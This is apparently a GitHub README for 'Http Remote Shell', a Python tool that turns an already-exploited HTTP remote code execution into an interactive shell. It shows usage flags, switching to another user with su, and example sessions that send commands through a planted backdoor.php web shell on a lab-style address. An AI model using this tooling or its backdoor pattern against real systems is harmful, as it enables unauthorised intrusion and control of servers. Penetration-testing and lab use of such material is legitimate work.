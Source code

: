 # Http Remote Shell

## Introduction

This tool gives a basic command line interface of an exploited HTTP RCE.

This might be useful if no bind-shell, nor reverse-shell can be setup.

NB: The tool spawns a TTY shell with `/usr/bin/script` to correct the error: `su: must be run from terminal` (https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal)

## Usage

```bash
$ python3 ./http_rce.py -h
$ python3 ./http_rce.py --url '<URL>' --http-method GET
$ python3 ./http_rce.py --url '<URL>' --http-method GET --user '<USER>' --pass '<PASS>'
$ python3 ./http_rce.py --url '<URL>' --http-method GET --user '<USER>' --pass '<PASS>' --regex-pattern 'Password: (.*), plz dont share it'
```

## Examples

Running as default user (e.g. `www-data`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?c=' --http-method GET
bash > whoami
www-data

bash > ls
assets
css
index.php
js

bash >
```

Running as another user (e.g. `foo`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?foo1=bar2&cmd=' --http-method GET --user 'foo' --pass 'bar123'
bash > whoami
foo

bash > ls
assets css index.php js

bash >
```

Using the `--regex-pattern` option will only show the matched string (between parenthesis in the pattern) from the web server's response
